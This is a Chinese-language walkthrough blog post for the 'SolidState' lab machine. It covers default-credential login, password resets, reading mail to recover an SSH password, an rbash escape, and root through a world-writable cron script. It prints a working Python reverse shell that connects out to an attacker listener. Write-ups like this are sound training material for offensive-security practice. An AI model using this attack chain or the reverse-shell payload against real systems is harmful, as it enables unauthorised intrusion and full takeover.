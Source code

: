```yaml
---
layout: post
title:  "SolidState"
description: walkthrough
category: vulnhub
---
```

# SolidState

![image-20200617022024782]({{ site.url }}/assets/SolidState.assets/image-20200617022024782.png)



![image-20200617022457513]({{ site.url }}/assets/SolidState.assets/image-20200617022457513.png)

![image-20200617022629960]({{ site.url }}/assets/SolidState.assets/image-20200617022629960.png)

默认凭证直接进入

![image-20200617022731092]({{ site.url }}/assets/SolidState.assets/image-20200617022731092.png)

直接改所有人的密码，为下一步准备

![image-20200617022948417]({{ site.url }}/assets/SolidState.assets/image-20200617022948417.png)

用修改后的凭证进入邮件系统

![image-20200617023131902]({{ site.url }}/assets/SolidState.assets/image-20200617023131902.png)

逐个用户查阅每一封邮件，最终mindy的第二封邮件得到ssh凭证

![image-20200617023258879]({{ site.url }}/assets/SolidState.assets/image-20200617023258879.png)

```bash
username: mindy
pass: P@55W0rd1!2@
```

![image-20200617023503792]({{ site.url }}/assets/SolidState.assets/image-20200617023503792.png)

rbash，重新登录带参数用以绕过

```bash
ssh mindy@10.10.10.130 'bash --noprofile'
```

![image-20200617024319230]({{ site.url }}/assets/SolidState.assets/image-20200617024319230.png)

在opt目录下找到一个全局可写的脚本

![image-20200617025847107]({{ site.url }}/assets/SolidState.assets/image-20200617025847107.png)

看脚本是执行清除tmp下面的文件

![image-20200617030144197]({{ site.url }}/assets/SolidState.assets/image-20200617030144197.png)

但考虑到它被写成如果只有root可以运行它，并属于root，这表明root用户可能有一个cron作业设置了这个脚本。


这里我们需要制作rshell，因为在目标shell种打开vim等编辑器，难以正常输入。有另外一个技巧，就是在本地编辑好之后，直接复制代码黏贴到目标种

```bash
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.128",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

现在本地写好脚本
然后vi tmp.py
进入之后按ESC进入命令行模式 输入 :.,$d 删除所有行
再按 i  进入编辑模式    直接粘贴
再按 ESC 进入命令行模式 
输入 :wq 保存退出

然后设立监听，等待即可得到root shell

![image-20200617030630878]({{ site.url }}/assets/SolidState.assets/image-20200617030630878.png)